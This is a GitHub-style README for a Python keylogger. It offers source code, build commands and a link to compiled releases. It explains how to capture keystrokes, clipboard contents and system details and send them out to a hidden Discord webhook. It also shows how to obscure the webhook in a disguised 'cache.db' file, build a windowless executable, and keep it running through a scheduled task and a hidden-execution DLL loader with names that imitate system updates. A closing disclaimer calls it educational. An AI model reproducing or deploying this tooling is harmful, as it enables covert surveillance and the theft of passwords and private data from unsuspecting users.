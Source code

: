 # 🛡️ Keylogger

A fully featured keylogger written in Python. It captures keystrokes, clipboard changes, and system information, and sends the data securely to a hidden Discord webhook.

---

## ⚙️ Features

* ⌨️ Logs all keystrokes with modifier support (e.g., `CTRL + C`)
* 📋 Detects clipboard changes and sends content in real time
* 💻 Collects system information (hostname, user, IPs, OS)
* ⏱️ Sends data periodically to a webhook in minute intervals
* 🔒 Uses a disguised log file to hide the webhook URL
* ❌ Automatically exits if no valid webhook is found
* 🫌 Compatible with both development and compiled environments

---

## 🔧 Compilation Instructions

To compile the script into a standalone executable using **PyInstaller**:

```bash
pyinstaller --onefile --noconsole --icon="icon_path.ico" Keylogger_Code.py
```

Replace `icon_path.ico` with your actual icon file path.
The `--noconsole` flag ensures no command window pops up when running.

---

## 🔐 Webhook Handling

To protect the Discord webhook URL from being exposed in the source code, use the included `Base64_webhook_encoder.py`. This script asks for a webhook, base64-encodes it, and writes it to a file called `cache.db`.

### Encoder Example (Base64\_webhook\_encoder.py)

```python
import base64
import os
import sys
import msvcrt

webhook = input("Enter your Discord webhook URL: ").strip()
if not webhook.startswith("http"):
    print("❌ Invalid webhook URL!")
    print("Press any key to exit...")
    msvcrt.getch()
    sys.exit(1)

encoded = base64.b64encode(webhook.encode()).decode()
base_dir = os.path.dirname(sys.executable if getattr(sys, 'frozen', False) else __file__)
full_path = os.path.join(base_dir, "cache.db")

try:
    with open(full_path, "w", encoding="utf-8") as f:
        f.write(encoded)
    print(f"✅ Webhook saved to: {full_path}")
except Exception as e:
    print(f"❌ Failed to save: {e}")

print("Done. Press any key to close...")
msvcrt.getch()
```

---

## 📁 Project Structure

| File                        | Description                                                        |
| --------------------------- | ------------------------------------------------------------------ |
| `Base64_webhook_encoder.py` | CLI tool to encode and save a webhook in `cache.db`                |
| `Keylogger_Code.py`         | Main keylogger implementation (keyboard + clipboard + system info) |
| `startloader.cpp`           | C++ DLL loader that executes the compiled keylogger binary         |
| `LICENSE`                   | MIT license declaration                                            |
| `README.md`                 | Documentation and instructions                                     |

---

## 🚨 Autostart (DLL via Task Scheduler)

This config uses a scheduled task to execute the keylogger DLL upon user logon.

### ▶ Autostart the DLL

```powershell
$Action = New-ScheduledTaskAction -Execute "rundll32.exe" -Argument '"C:\ProgramData\Microsoft\CacheSync\update.dll",MyFunction'
$Trigger = New-ScheduledTaskTrigger -AtLogOn
$Principal = New-ScheduledTaskPrincipal -GroupId "Users" -RunLevel Limited
Register-ScheduledTask -TaskName "SystemUpdater" -Action $Action -Trigger $Trigger -Principal $Principal
```

### ❌ Remove the DLL Autostart

```powershell
Unregister-ScheduledTask -TaskName "SystemUpdater" -Confirm:$false
```

---

## ⚒️ startloader.dll Compilation

The `startloader.cpp` file contains the following code:

```cpp
#include <windows.h>

extern "C" __declspec(dllexport) void CALLBACK MyFunction(HWND hwnd, HINSTANCE hinst, LPSTR lpszCmdLine, int nCmdShow) {
    WinExec("C:\\ProgramData\\Microsoft\\CacheSync\\systemupdater.exe", SW_HIDE);
}
```

### ▶ Compile Command

```bash
g++ -shared -o startloader.dll startloader.cpp -Wl,--add-stdcall-alias
```

This creates a `.dll` that calls a hidden executable. The function name `MyFunction` is important for `rundll32.exe` to reference during scheduled task execution.

---

## 📢 Download

The latest compiled release (EXE/DLL) is available here:
**[Latest Release →](https://github.com/mrpanda-bamboo/keylogger/releases/latest)**

---

## 📜 License

This project is released under the **MIT License**.
See the [LICENSE](./LICENSE) file for more information.

---

## 🚨 Disclaimer

> This software is intended for **educational, research, and ethical testing purposes only**.
> **Do not** use this tool on systems you do not own or have explicit permission to monitor.
> Misuse of this software can violate privacy laws and may be considered illegal in many countries.
> The author takes no responsibility for misuse or damage caused.
